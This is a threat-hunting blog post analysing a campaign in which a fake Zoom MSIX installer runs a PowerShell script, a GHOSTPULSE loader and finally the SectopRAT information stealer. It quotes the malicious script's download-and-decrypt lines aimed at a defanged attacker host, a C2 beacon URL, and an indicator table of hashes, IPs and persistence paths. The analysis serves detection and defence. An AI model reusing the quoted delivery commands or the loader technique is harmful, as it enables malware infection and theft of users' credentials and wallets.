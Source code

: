 ```yaml
---
layout: post
title: SectopRAT Buffet with a side of GHOSTPULSE
date: 2024-05-08 22:00:00 +1030
description: 
image: 
category:
  - Theat_Hunting
  - Malware Analysis
tags:
  - malware_analysis
  - sectoprat
  - ghostpulse
  - msix
  - cybr_culture
  - C2
mermaid: true
img_path: /assets/img/
pin: true
---
```

![Zoom Installer](cyber_rat_tophat_700x300.jpg){: .shadow width="1200" height="630"}

---
## IN THE BEGINNING

Just another day in paradise with a fresh cup of coffee in hand, my Pomodoro clock ticking away 25 minutes, and the diffuser gently releasing its aroma. Fast forward a few and we are now looking at a campaign using signed MSIX App Packages disguised as legitimate installers for popular applications — Zoom Installer, in this case. Unbeknownst to the unsuspecting target, these seemingly innocent MSIX app packages conceal a malicious PowerShell script, setting off the multi-stage stealthy GHOSTPULSE loader, ultimately leading to the injection of a SectopRAT payload, a voracious .NET information stealer (aka ArechClient2), into `MSBuild.exe`{: .filepath}.

As described by MSFT, *"MSIX is a Windows app package format that combines the best features of MSI, .appx, App-V, and ClickOnce to provide a modern and reliable packaging experience"*. In Windows 10 and above, all applications are required to be signed with a valid code signing certificate. Regrettably, cheeky threat actors manage to acquire these certificates, and it's not uncommon for them to be traded in the deepest corners of the web.

Upon double-clicking `Zoom-x64.msix`{: .filepath}, an installation window promptly appears, mirroring the familiar interface of most other installers that users are accustomed to.

![Zoom Installer Window](Zoom-x64_execution.png){: .shadow }
_Zoom Installer Window - MSIX_

Upon the user's selection of `Install`, the latent PowerShell `script 2011_allso.ps1`{: .filepath} springs into action. It promptly initiates an initial GET request to the Command and Control (C2) server, signalling the commencement and concurrently transmitting system information from the compromised device—all cleverly encapsulated within the URL (Antivirus, Domain, Operating System). Without digging into the ins and outs of PSF, the malicious PowerShell script to be executed is defined within `config.json`{: .filepath} that is contained within the MSIX package.

![MSIX config](config_script.png){: .shadow }
_MSIX config.json_

**Example GET Request to the C2 Server:**
```console
hxxps[://]3010cars[.]xyz/?status=start&av=Windows Defender&domain=JUICYPANTS&os=Microsoft+Windows+10
```

## THE LATENT POWERSHELL SCRIPT
Venturing further into the intricacies of the PowerShell script, it becomes evident that the primary goal of `2011_allso.ps1`{: .filepath} is to retrieve a GPG-encrypted file named `robo-claim[.]site/order/allso.tar.gpg`{: .filepath}. Following this, the script decrypts the file and proceeds to execute `TPAutoConnect.exe`{: .filepath}, cunningly disguised as a renamed `vmtoolsd.exe`{: .filepath} binary. This binary, a featured component of the VMware user process, facilitates essential features like copy-paste, drag-and-drop within the VMware environment. A curious observer would also catch the passphrase `putin` being used for decryption.

![PowerShell Script Flow](script_flow.png){: .shadow }
_PowerShell Script Breakout_

**PowerShell Snippet - Retrieiving and Decrypting SectopRAT:**
```powershell
$url = "hxxps[://]robo-claim[.]site/order/allso.tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg
```

![VMware Digital Signature](vmware_digital_sig.png){: .shadow }
_VMware Digital Signature_

At this stage, it is fair to asses that the `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath} binary may be being used to perform some form of sideloading. 

## DECRYPTING THE TAR ARCHIVE

Decryption of the TAR file spills the beans - inside, we've got `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath}, a bunch of DLLs, and the unexpected guest, `fibrolite.dwg`{: .filepath}. Doesn't quite fit the Zoom Installer vibe, right? Now, check out `fibrolite.dwg`{: .filepath} magic numbers – `89 50 4E 47 0D 0A 1A 0A`, initially screaming a .png graphic file. But, hold your horses. When `TPAutoConnect.exe`{: .filepath} takes the stage, it decrypts `fibrolite.dwg`{: .filepath} and pulls off a sneaky move by creating a suspended `MSBuild.exe`{: .filepath} process. This innocent-looking process, though, gets the VIP treatment with a SectopRAT injection. Big shoutout to the folks at [Elastic Security Labs](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks); they've dissected GHOSTPULSE and its stages like a boss. If you're itching for a deeper dive, their breakdown is a must-read. Everything mentioned here is like the calling card of the same sneaky campaign.

A sanity check of all the .DLL's with Sigcheck we see that digital signature of `glib-2.0.dll`{: .filepath} could not be verified. This could indicate tampering and/or corruption, ultimately the integrity of the DLL is not guaranteed; most likely our sideloading specimen

![Sigcheck](sigcheck.png){: .shadow }
_Sigcheck Signature could not be verified_

## THE JUICE - SECTOPRAT

Using the [Ghost Pulse Payload Extractor](https://github.com/elastic/labs-releases/tree/main/tools/ghostpulse), we are able to extract the payload from the encrypted GHOSTPULSE file.

![Ghostpulse Payload Extractor](ghost_pulse_extractor.png){: .shadow width="1200"}
_Ghostpulse Payload Extractor_

![PEStudio](pe_studio.png){: .shadow width="1200"}
_PEStudio - Ghost Pulse Payload_

Diving into the .NET binary without de-obfuscating, we can clearly see the information stealing capabilities of SectopRAT; scanning for Browsers, Wallets, Accounts, Processes, and files to name a few.

![SectopRAT Scan Critera](scan_details_criteria.png){: .shadow }
_SectopRAT Scan Criteria_

![SectopRAT Scan Arguments](scan_details_args.png){: .shadow }
_SectopRAT Scan Arguments_

When executed the malware creates the suspended child process `MSBuild.exe`{: .filepath}. This process appears to be hollowed out with the SectopRAT payload. A couple of indicators include a hanging `MSBuild.exe`{: .filepath} process with no arguments,  the `Current directory` path of `MSBuild.exe`{: .filepath} being the path the malware was executed from, and by scanning running processes with pe-sieve (developed by @hasherezade), it identified that the PE `MSBuild.exe`{: .filepath} was replaced, reference by the `is_pe_replaced: 1` result. And of course, simply dumping this process and doing analysis would reveal much of what has already been mentioned.

Of note, as part of the encryption process, the environment variable `KKHIECNPOYLCZOXDETZX` is created which points to an encrypted file at `%LOCALAPPDATA%\Temp\232135f6`{: .filepath}

![SectopRAT Scan Arguments](hollow_msbuild.png){: .shadow }
_Possible Process Hollowing of a suspended process_

In this sample, the final payload calls out to `hxxps[:]//pastebin[.]com/raw/cLika3dt`{: .filepath} which contained the C2 address `138.201.125[.]92`{: .filepath}. This C2 was also identified in the network connections upon execution of the malware. along with the string `AfkSystem`. Both indicators indicative of other previously reported SectopRAT samples in the wild.

![Pastebin](pastebin.png){: .shadow }
_C2 Address referenced within Pastebin_

![C2](network_connection.png){: .shadow }
_C2 Network Connections_
  
And lastly, to ensure it lives to fight another day the malware establishes persistence by creating the startup item `Dby_control.lnk`{: .filepath} which points to the original `TPAutoConnect.exe`{: .filepath} mentioned earlier.


---
## OBSERVATIONS

| Context            | Observable                                                                                                       | Indicator Type |
| ------------------ | ---------------------------------------------------------------------------------------------------------------- | -------------- |
| C2 within Pastebin | 138.201.125[.]92:15647                                                                                           | IP-v4          |
| Pastebin           | hxxps[://]pastebin[.]com/raw/cLika3dt                                                                            | URL            |
| PS Script          | 2011_allso.ps1<br>**SHA256:** c6f8edcb9bff1efe62dcaddc90c27df67bf3f64d951a5f08089f2f1c5a7981d1                   | File           |
| Persistence        | %AppData%\Microsoft\Windows\Start Menu\Programs\Startup\Dby_control.lnk                                          | File           |
| Persistence        | TPAutoConnect.exe (vmtoolsd.exe)<br>**SHA256:** bf933ccf86c55fc328e343b55dbf2e8ebd528e8a0a54f8f659cd0d4b4f261f26 | File           |
| SecropRAT          | fibrolite.dwg<br>**SHA256:** f88d3d755ed1d8e79165c74c2c8fc7eefc8df2e909be73adfe3822f65107e5cc                    | File           |
| MSIX               | Zoom-x64.msix<br>**SHA256:** 2ea9ab31124e6639b635ef605473d433b99536d6465e23ab8f0375db35244dce                    | File           |
| Encryped Archive   | allso.tar.gpg<br>**SHA256:** d92178fb77200cabb9a7b36f0b93bcb7f0edd47acaafabca4a420a68f0eefcfd                    | File           |
| Sideload DLL       | glib-2.0.dll<br>**SHA256:** 32ef20dbf95940528359604947d2ed36bc81e2832000ee32af375e0fb3821684                     | File           |





---
### References:

* https://github.com/elastic/labs-releases/tree/main/nightMARE
* https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks
